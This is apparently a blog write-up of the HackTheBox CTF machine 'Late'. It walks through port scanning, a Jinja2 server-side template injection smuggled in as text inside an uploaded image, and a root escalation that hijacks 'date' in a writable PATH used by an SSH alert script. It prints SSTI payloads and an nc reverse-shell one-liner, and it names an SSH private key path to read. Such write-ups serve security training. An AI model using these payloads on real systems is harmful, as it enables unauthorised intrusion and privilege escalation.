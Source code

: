 +++
title = 'Late'
date = 2022-04-23T14:27:49+02:00
draft = false
tags = ['htb', 'writeup']
summary = 'Capture the flag challenge writeup'
thumbnail = 'img/lt-logo.png'
+++

[Late](https://app.hackthebox.com/machines/Late) is an easy CTF-like machine that you can try to pwn on [HackTheBox](https://www.hackthebox.com/). It was released on 23 of April 2022 and for completion awards you 20 points. The focus of this challenge is to pwn a Linux server that hosts a vulnerable web application. The exploit features a custom SSTI payload delivered in an image format. After initial access, you can escalate your privileges by abusing an SSH login tracker script with the ability to write to the PATH.

Initial Access
==============

Enumeration
-----------

### Ports

After connecting to the HackTheBox VPN we can start our enumeration. First things first we can do a port scan on the machine to see what is running:

```bash
sudo rustscan --ulimit 5000 -a 10.10.11.156 -- -sC -sV
```

After scanning the machine we find that there are two ports open. One of which is port `22`, running `OpenSSH 7.6p1` and the other is port `80` running on `nginx 1.14.0`. Scan also reveals to us that the target OS is Ubuntu. Scan results:

```text
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
| ssh-rsa ...
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
| ecdsa-sha2-nistp256 ...
|   256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
|_ssh-ed25519 ...
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 1575FDF0E164C3DB0739CF05D9315BDF
|_http-title: Late - Best online image tools
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Webapp

Upon opening the web app we see that this page is a portfolio for image editing tools. We could start fuzzing for other directories or subdomains, but let's first explore the website.

![](img/lt-webapp.jpg)

If we scroll down we will find a link that redirects us to a different subdomain `images.late.htb`. We can now add both `images.late.htb` and `late.htb` to our `/etc/hosts` file using our favorite text editor:

![](img/lt-hosts.jpg)

Now we can visit the newly discovered subdomain. The title of it is `Image Reader`. This tool claims to convert images to text. To do that it allows us to upload an image file.

![](img/lt-subdomain.png)

Let's try out the functionality. For image creation, I will be using [Photopea](https://www.photopea.com/) which is a free Photoshop-like image editor that can be run in your browser. I created an HD image and added text that said "Test 123". Then I exported the image as JPEG and uploaded it to the site.

![](img/lt-upload.jpg)

The functionality so far works as intended. The output was a text file that wrapped the text it gathered from the image in paragraph tags. Can we somehow exploit this?

Exploitation
------------

### Identification

There are a few things that hit this function as being vulnerable. The first thing is that it is apparently created with a Python flask. Flask uses a templating engine called Jinja2. If the output to the file is inserted as a template and not filtered then we can try to perform SSTI (Server-side template injection) and gain a shell. We can test this theory by trying to submit an image that has `{{7*7}}` as its payload. Note that the best font that worked for me was "Azeret Mono".

![](img/lt-vuln.jpg)

### SSTI Exploitation

Now we know that the target is vulnerable. For the exploit, I first need to find the Popen function within python. To do this I can use the following line as text in the image:

```python
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

This will return all of the subclasses. From the output, we can try to locate the Popen subclass. This can be done by trial and error, or by using sublime-text to find the index. In my case, the index of Popen is `249`. Please note that it might recognize any `5` as an `S` which you can bypass by using `4+1`. In my case that is not needed:

```python
{{ ''.__class__.__mro__[1].__subclasses__()[249] }}
```

After submitting this image, in the output, we will see the Popen subclass which we can then later use to execute code on the target.

![](img/lt-popen.jpg)

Now we can try to execute code. For that, I'll use a reverse shell from [revshells](https://www.revshells.com/). The payload that I will use in the image is the following one:
```python
{{ ''.__class__.__mro__[1].__subclasses__()[249]("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <IP> <PORT> >/tmp/f", shell=True, stdout=-1).communicate() }}
```

For the exploit image to work I used the `Azeret Mono` font and the image size that I opted for was `4000x200`. The font size for the payload was 36px which might look small on a 4k pixel strip, but in fact, that is quite big. Lastly, we can set up our Netcat listener and upload the payload:

![](img/lt-access.png)

### Persistence

Now that we have access to the machine we can set up some persistence. The first thing we see is that we are not `www-data` but a service account that has a home directory. We know that the machine has SSH open, which means we can log in via SSH using a key pair. If we explore our home directory more we find that an SSH key has already been generated which means we can use it to login on a stable SSH connection:

![](img/lt-ssh.jpg)

If getting the reverse shell was unsuccessful then you can try to cat out the `id_rsa` located at `/home/svc_acc/.ssh/id_rsa`. We can also grab the flag at `/home/svc_acc/user.txt`.

Privilege Escalation
====================

Enumeration
-----------

### Exploration

If we run any automatic scripts like PEAS then it will straight away tell us what is exploitable. If we look at the path we notice that we have two writable directories. One of which has a script in them:

![](img/lt-path.jpg)

If we look at the file we can see that it is a bash script. It looks to be triggered every time someone logins or exits SSH. The `ssh-alert.sh` script:

```bash
#!/bin/bash

RECIPIENT="<a href="/cdn-cgi/l/email-protection" class="__cf_email__" data-cfemail="0f7d60607b4f636e7b6a21677b6d">[email&#160;protected]</a>"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

Exploitation
------------

### Overview

Since we can write to the PATH, then we can try to hijack one of the binaries that are being run in the script. `sendmail` binary we cant hijack since it has a full path specified, but we can go for `date` or `uname` which are run in the BODY of the email before it is sent. Assuming that the script is run by a higher privilege user then we can escalate our privileges. First, we can create a script in the same directory with the name `date` and a reverse shell in it:

![](img/lt-create.jpg)

Now, all we have to do is set up a Netcat listener and exit the current SSH shell. This in turn will give us a root shell where we can grab our flag at `/root/root.txt`:

![](img/lt-root.jpg)
